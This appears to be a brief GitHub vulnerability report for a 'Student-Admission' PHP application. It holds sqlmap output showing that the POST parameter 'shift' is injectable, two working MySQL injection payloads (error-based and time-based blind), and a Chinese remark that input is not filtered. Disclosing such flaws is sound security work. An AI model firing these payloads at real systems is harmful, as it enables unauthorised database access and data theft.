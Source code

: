 # Student-Admission

### Sqlinjection
![image](https://user-images.githubusercontent.com/72059221/182750831-21ba3a4b-d99f-484b-813f-0d175d044ce4.png)
![image](https://user-images.githubusercontent.com/72059221/182750900-d34a0889-3f8b-4a3b-85a7-fddb16385258.png)
![image](https://user-images.githubusercontent.com/72059221/182750935-56fa5112-fdcd-4bb5-ba7e-762cffaaf506.png)

```
POST parameter 'shift' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 1581 HTTP(s) requests:
---
Parameter: shift (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND GTID_SUBSET(CONCAT(0x717a766b71,(SELECT (ELT(3656=3656,1))),0x7162766a71),3656)&gender=female&blgroup=abc&division=1&submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND (SELECT 2934 FROM (SELECT(SLEEP(5)))GVhT)&gender=female&blgroup=abc&division=1&submit=Submit
---
[09:45:36] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 5.6.9
back-end DBMS: MySQL >= 5.6
```

![image](https://user-images.githubusercontent.com/72059221/182751071-f90c74c8-2632-4838-ac0d-a7cf4d0ebac0.png)

没有检查过滤    

![image](https://user-images.githubusercontent.com/72059221/182751180-d03a9653-d4b1-4dfd-b0a9-d5535f98f6bf.png)

